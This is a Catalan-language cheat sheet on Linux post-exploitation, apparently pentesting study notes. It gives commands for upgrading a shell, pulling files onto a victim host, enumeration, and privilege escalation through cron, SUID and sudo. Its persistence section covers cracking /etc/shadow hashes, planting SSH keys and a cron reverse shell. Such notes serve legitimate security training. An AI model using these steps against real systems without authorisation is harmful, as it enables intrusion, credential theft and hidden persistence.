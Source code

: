 # Linux post-exploitation
## Utilities
##### Tractament de la TTY
```bash
# Bash
1. script /dev/null -c bash
#Python
1. python -c 'import pty; pty.spawn("/bin/bash")'

2. [Ctrl+Z] stty raw -echo; fg
3. reset xterm
4. export TERM=xterm
5. export SHELL=bash
6. stty rows [x] columns [y]
```
##### Transferència de fitxers
```bash
python3 -m http.server [port] # Atacant
wget [url] -O [output] # Víctima
```
## Local enumeration
--> **Hostname, distribution, release version, kernel, arch, cpu, disk, mounts, packages**
```
uname -a
env
lscpu
df -h
dpkg -l
```
--> **Users, groups, current user, privileges**
```
whoami
groups [user]
cat /etc/passwd | grep 'sh$'
lastlog
```
--> **IP, network adapter, internal network, TCP/UDP services, other hosts**
```
ip a
cat /etc/resolv.conf
ip neighbour
route
```
--> **Running services, cron jobs**
```
ps aux | grep [user]
top
crontab -l
ls -la /etc/cron*
cat /etc/cron*
```
> Es pot automatitzar a través de [LinEnum](https://github.com/rebootuser/LinEnum) o [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).
## Privilege escalation
##### Cron Jobs
Són scripts que s'executen de forma automàtica cada període de temps assignat, que pot anar des d'un cop per minut fins un cop al mes, i amb els permisos de l'usuari que l'ha creat. Poden ser vulnerables a escalat de privilegis si:
1. Els ha creat un usuari privilegiat.
2. Són editables/vulnerable o criden un script que és editable/vulnerable.
Els Cron Jobs tenen la següent estructura:
```
* * * * * [command]
|  | | | |______ Dia de la setmana
|  | | |__________ Mes
|  | |_________________ Dia del mes
|  |______________________ Hora
|___________________________ Minut
``` 
##### SUID Binaries
Els bits SUID d'un binari són un tipus de permisos que es poden atorgar als arxius per a que s'executin sempre amb els privilegis del propietari i no de l'usuari actual. Estan representats als permisos amb una lletra "S". Alguns programes propietat de root tenen el bit SUID per defecte però no són vulnerables, com _ping_ o _chsh_. Per saber si un binari és vulnerable es pot consultar a [GTFOBins](https://gtfobins.github.io/).
Es poden trobar tots els binaris amb SUID:
```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null
find / -uid 0 -perm -4000 -type f 2>/dev/null # propietat de root
```
##### Abusing Sudo
_Sudo_ (Super User DO), és una comanda de Linux que permet executar una comanda amb permisos de root. Per a poder utilitzar-la, fa falta que l'usuari estigui dins de l'arxiu _/etc/sudoers_, i pot ser que només tingui permisos per executar alguna comanda específica. De nou, es pot consultar si una comanda és vulnerable a [GTFOBins](https://gtfobins.github.io/).
Per veure quins permisos de sudo té l'usuari actual s'ha de fer:
```bash
sudo -l
```
##### Kernel exploits
Al llarg de les versions del kernel de Linux s'han trobat vulnerabilitats que permeten escalar privilegis. L'enumeració amb [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) fa una comprovació de les principals vulnerabilitats (com DirtyCow o Pkexec) i reporta si són explotables o no.

> La Santa Bíblia del PrivEsc a Linux: [Linux PrivEsc](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/).
## Persistence
##### Dumping hashes
L'arxiu _/etc/shadow_, només accessible amb permisos de root, conté els hashes de les credencials dels usuaris. Si s'aconsegueixen aquests hashes, es poden ficar en un arxiu i crackejar amb Hashcat.
```bash
hasid -m [hash] # saber quin tipus de hash és i el id de hashcat
hashcat -a 0 -m [id] -w [wordlist] [hashes_file]
```
##### SSH Keys
L'autenticació per clau de SSH és asimètrica, és a dir, funciona amb un parell de claus relacionades on una és pública i serveix per encriptar, i l'altra és privada i serveix per desencriptar i accedir al host remot. N'hi ha amb diferents tipus d'encriptació, tot i que la més típica és la RSA. 

Tenint la clau privada d'un usuari és possible autenticar-se com aquest, i amb permisos d'escriptura és possible afegir un parell de claus propi al directori ssh de l'usuari: _~/.ssh/authorized_keys_.

**Autenticació amb clau privada**
```bash
ssh -i [ssh_private_key] [user]@[host] 
```

**Generació d'un nou parell de claus**
```bash
# Atacant
ssh-keygen -t rsa -b 4096 # demanarà on guardar-les i amb quin nom
chmod 600 [ssh-key]

# Víctima
> Copiar la clau pública al authorized_keys
```
##### Cron Jobs
Es pot crear un Cron Job que, amb la freqüència que designem, intenti establir una reverse shell al nostre host per a poder-nos connectar quan ho desitgem.
```bash
echo "* * * * * [revese shell]" > [file] # Cada minut
crontab -i [file]
```

> La Santa Bíblia de la persistència a Linux: [Linux Persistence](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/linux-persistence/).
